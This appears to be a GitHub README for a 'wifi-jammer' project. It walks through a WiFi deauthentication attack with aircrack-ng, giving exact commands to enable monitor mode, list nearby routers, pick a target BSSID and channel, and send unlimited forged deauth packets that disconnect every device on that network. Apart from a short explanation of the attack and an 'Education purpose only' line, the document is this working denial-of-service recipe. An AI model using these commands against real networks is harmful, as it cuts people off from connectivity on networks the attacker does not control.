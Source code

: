 # wifi-jammer
wifi jammer using aircrack-ng without any external wifi adapters. If you looking for an automated script head to my another repo [here](https://github.com/mtm-x/wifi-jammer-script)
# What is deauth attack
A deauth attack sends forged deauthentication packets from your machine to a client connected to the network you are trying to jam. These packets include fake "sender" addresses that make them appear to the client as if they were sent from the access point themselves. Upon receipt of such packets, most clients disconnect from the network and immediately reconnect.
# Getting started 
Install [aircrack-ng](https://github.com/aircrack-ng/aircrack-ng) on your machine and make sure your wifi card supports monitor mode (your in-build wifi card is enough if it supports monitor mode)
# Jamming
### Monitor Mode
1. type `iwconfig` in your terminal

   ![1](https://github.com/mtm-x/wifi-jammer/assets/88881685/8e6b01cb-34cc-4fad-babe-42c7d38db355)

In this instance, my wireless card is called wlan0.

2. Now run 

```
sudo airmon-ng start wlan0
```
where wlan0 is your network card. This will put your card into monitor mode which allows the card to monitor all traffic on the network.


![2](https://github.com/mtm-x/wifi-jammer/assets/88881685/02ea0b7a-0e36-4273-a1af-f2b22535df48)

as you can see my wifi card is now in monitor mode


3. You will need to run `iwconfig` again because after switching to monitor mode it will change your network card name. In most cases it changes it to mon0 but in mine it’s changed to wlan0mon.

   ![3](https://github.com/mtm-x/wifi-jammer/assets/88881685/db4ac485-2cd4-4b18-92d8-ee8afd7a4408)

4. Now run


   
```
sudo airodump-ng wlan0mon
```


![4](https://github.com/mtm-x/wifi-jammer/assets/88881685/77d64c1c-b02f-489d-84f6-c23a376558d9)

This is every single router in range.once you find your target Press `ctrl+c` to stop. Now we just gonna deauth my router named victim.

We want to take note of 2 things here:

    The BSSID (mac address) of the router
    The Channel(CH) of the router


In my case the channel is 4 and copy the corresponding bssid 


5. Now run the following command


```
sudo airodump-ng wlan0mon --bssid [routers BSSID here] -c [routers channel here]
```

-c for channel . 

![5](https://github.com/mtm-x/wifi-jammer/assets/88881685/8df5a9ea-d57e-4339-829f-383b5fe1d267)

now it shows like this

6. now run

```
sudo aireplay-ng --deauth 0 -a [ROUTERS BSSID HERE] wlan0mon
```

The 0 represents an infinite amount of deauth attacks. If you wanted to only run 5 deauth attacks you’ll change this to 5.


![6](https://github.com/mtm-x/wifi-jammer/assets/88881685/a7fc9438-6c52-4d6a-9048-ee2031cbf268)


now all the devices connected to the router 'victim' will be disconnected . The connected devices try to reconnect to the router 'victim' but again it will be disconnected . Press `ctrl+c` to stop


## Managed Mode

After the attack put your wifi card in managed mode 

1. Run

```
sudo airmon-ng stop wlan0mon  
```

That's it 

Education purpose only


   






